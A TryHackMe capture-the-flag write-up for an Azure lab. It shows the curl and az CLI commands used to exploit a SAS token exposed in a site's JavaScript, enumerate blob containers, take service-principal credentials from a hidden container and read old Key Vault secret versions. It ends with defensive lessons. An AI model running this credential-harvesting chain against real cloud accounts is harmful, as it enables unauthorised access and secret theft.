# 9 - CryptoCabana

**Platform:** TryHackMe | **Category:** Cloud | **Difficulty:** Medium

---

## 1. Introduction

CryptoCabana is an Azure-focused cloud CTF that involves following a chain of trust across several Azure services.

The initial website looks like a simple recovery-phrase backup kiosk:

> "Paste your recovery phrase below and we'll back it up to your own private vault. Never stored on your device, never shared. Promise."

The interesting part wasn't the input field itself. The challenge required finding what the application was exposing publicly, following that trust into Azure Storage, discovering a hidden container, obtaining a service-account credential, and eventually recovering pieces of the flag from Azure Key Vault secret versions.

---

# 2. Initial Access

The room provided Azure credentials which allowed me to log into the Azure portal and use Cloud Shell.

I first checked the Azure environment and started investigating the target website.

The target was:

```text
https://cryptocabanaf5scjagc.z13.web.core.windows.net/
```



The website contained a recovery phrase field and a backup button.

At first glance, it looked like the main functionality was simply uploading a phrase.

However, the room's wording suggested that something was being exposed before interacting with the application.

---

# 3. Inspecting the Website Source

I inspected the site's app.js.

The important part was:



This immediately exposed several useful pieces of information:

```text
Storage account : cryptocabanaf5scjagc
Container       : backups
SAS             : exposed in client-side JavaScript
```

The important finding was the **SAS token**.

---

# 4. Understanding the SAS Token

I inspected the SAS parameters.

The relevant parameters were:

```text
sv  = 2022-11-02
ss  = b
srt = sco
sp  = rl
se  = 2099-12-31T23:59:59Z
st  = 2024-01-01T00:00:00Z
spr = https
```

The most important parameter was:

```text
sp=rl
```

This meant the SAS granted:

```text
r = Read
l = List
```

So although the kiosk's JavaScript only appeared to use the SAS for uploading backups, the exposed SAS actually provided **read and list access**.

That meant I didn't need to interact with the recovery phrase functionality.

I could directly investigate the underlying Azure Blob Storage.

---

# 5. Enumerating the `backups` Container

I first tested the `backups` container.

```bash
SAS='sv=2022-11-02&ss=b&srt=sco&sp=rl&se=2099-12-31T23:59:59Z&st=2024-01-01T00:00:00Z&spr=https&sig=REDACTED'
```

Then:

```bash
curl -s "https://cryptocabanaf5scjagc.blob.core.windows.net/backups?restype=container&comp=list&$SAS"
```

The response was:

```xml
<EnumerationResults ContainerName="backups">
    <Blobs />
    <NextMarker />
</EnumerationResults>
```



The container was empty.

At this point, I didn't stop at the container referenced by the application.

The SAS had broader permissions, so I tried enumerating the storage account's containers.

---

# 6. Enumerating the Storage Account

I used:

```bash
curl -s "https://cryptocabanaf5scjagc.blob.core.windows.net/?comp=list&$SAS"
```



This returned multiple containers.

The interesting ones were:

```text
$web
backups
vault
```

The website explicitly referenced:

```text
backups
```

but never mentioned:

```text
vault
```

This matched the challenge hint about following the trust somewhere the kiosk itself never points to.

---

# 7. Enumerating the Hidden `vault` Container

I listed the contents of `vault`:

```bash
curl -s "https://cryptocabanaf5scjagc.blob.core.windows.net/vault?restype=container&comp=list&$SAS"
```



The container contained:

```text
backup-service-account.json
seed_phrase.txt
```

The most interesting file was:

```text
backup-service-account.json
```

---

# 8. Recovering the Backup Service Account

I downloaded the JSON file:

```bash
curl -s "https://cryptocabanaf5scjagc.blob.core.windows.net/vault/backup-service-account.json?$SAS"
```



The file contained Azure service-account information:

```json
{
    "client_id": "REDACTED",
    "client_secret": "REDACTED",
    "key_vault_name": "ccabana-kv-f5scjagc",
    "key_vault_uri": "https://ccabana-kv-f5scjagc.vault.azure.net/",
    "note": "CryptoCabana backup automation account. Rotate this if it ever leaves the vault. -- IT",
    "tenant_id": "REDACTED"
}
```

This was the second major credential exposure.

The JSON gave me:

```text
client_id
client_secret
tenant_id
Key Vault name
Key Vault URI
```

The note was also a strong hint:

```text
CryptoCabana backup automation account.
Rotate this if it ever leaves the vault.
```

So the next target was clearly the Azure Key Vault.

---

# 9. Authenticating as the Service Account

I stored the credentials in environment variables:

```bash
TENANT_ID='REDACTED'
CLIENT_ID='REDACTED'
CLIENT_SECRET='REDACTED'
```

Then authenticated using the service principal:

```bash
az login --service-principal --username "$CLIENT_ID" --password "$CLIENT_SECRET" --tenant "$TENANT_ID"
```



I verified the Azure session:

```bash
az account show -o table
```



The login succeeded.

---

# 10. Enumerating Azure Key Vault Secrets

The Azure service-account information gave the Key Vault name:

```text
ccabana-kv-f5scjagc
```

I enumerated its secrets:

```bash
az keyvault secret list --vault-name ccabana-kv-f5scjagc -o table
```



The result contained four interesting secrets:

```text
key-shard-1
key-shard-2
key-shard-3
master-key
```

The names immediately suggested that the final value might be divided into multiple pieces.

However, the room's final hint was important:

> "if a value looks freshly rotated, ask yourself what it looked like five minutes before"

This suggested that I should investigate **secret versions**, not just retrieve the current values.

---

# 11. Investigating Secret Versions

For example, I checked the versions of `key-shard-2`:

```bash
az keyvault secret list-versions --vault-name ccabana-kv-f5scjagc --name key-shard-2 -o json
```



There were two versions.

The older version was created at:

```text
2026-07-28T01:05:05+00:00
```

and the newer version at:

```text
2026-07-28T01:05:07+00:00
```

The version IDs were different.

This confirmed that the secret had been updated and that the room's hint was pointing toward the **previous version**.

---

# 12. Retrieving the Previous Version

I retrieved the older version of `key-shard-2`:

```bash
az keyvault secret show --vault-name ccabana-kv-f5scjagc --name key-shard-2 --version 3d6492.................... --query value -o tsv
```

This returned:

```text
[REDACTED — flag fragment]
```



This returns a fragment of the final flag.

I repeated the same process for:

```text
key-shard-1
key-shard-2
key-shard-3
```

and retrieved the appropriate previous versions.

---

# 13. Reconstructing the Flag

Each shard contained a portion of the final flag.

Conceptually:

```text
key-shard-1 → FLAG_PART_1
key-shard-2 → FLAG_PART_2
key-shard-3 → FLAG_PART_3
```

Combining the three parts in the correct order produced the complete flag.

The `master-key` was also present in the vault, but the actual flag reconstruction came from the shard values.

---

# 14. Final Attack Chain

The complete solution can be summarized as:

```text
1. Access the CryptoCabana website
        |
        v
2. Inspect client-side JavaScript
        |
        v
3. Find exposed Azure Storage SAS
        |
        v
4. Identify SAS permissions: Read + List
        |
        v
5. Enumerate Azure Blob containers
        |
        v
6. Discover hidden "vault" container
        |
        v
7. Enumerate vault contents
        |
        v
8. Download backup-service-account.json
        |
        v
9. Obtain service principal credentials
        |
        v
10. Authenticate with Azure CLI
        |
        v
11. Access Azure Key Vault
        |
        v
12. Enumerate secrets
        |
        v
13. Find key-shard-1/2/3 + master-key
        |
        v
14. Inspect secret versions
        |
        v
15. Retrieve previous versions
        |
        v
16. Combine the three key shards
        |
        v
17. Obtain the full flag
```

---

# 15. Key Takeaways

### Client-side secrets are not secret

Anything placed inside JavaScript delivered to a browser should be considered public.

The application exposed a powerful SAS directly in the frontend.

### Always inspect permissions

The important part wasn't just finding the SAS.

I checked:

```text
sp=rl
```

and realized that the token allowed both **reading and listing**.

### Enumerate beyond the application's UI

The application only referenced:

```text
backups
```

but the storage account also contained:

```text
vault
```

The hidden container was discovered by enumerating the underlying Azure resource rather than relying on the website's navigation.

### Cloud attacks often form trust chains

The compromise wasn't a single vulnerability.

It was:

```text
Exposed SAS
   ↓
Storage enumeration
   ↓
Service account credentials
   ↓
Key Vault access
   ↓
Secret version history
   ↓
Flag fragments
```

Each stage provided the information required to reach the next one.

### Secret rotation doesn't necessarily erase history

The final clue was especially important.

A secret being rotated doesn't automatically mean its previous value disappears. Azure Key Vault maintains versions, and in this challenge the previous versions contained the useful data.

---

# Conclusion

The key lesson for me was to **follow trust relationships instead of focusing only on the visible application**.

The website looked like a simple recovery-phrase backup form, but inspecting the JavaScript revealed an Azure Storage SAS. That SAS allowed storage enumeration, which exposed a hidden vault containing service-account credentials. Those credentials provided access to Azure Key Vault, where the previous versions of several secrets contained the pieces needed to reconstruct the final flag.
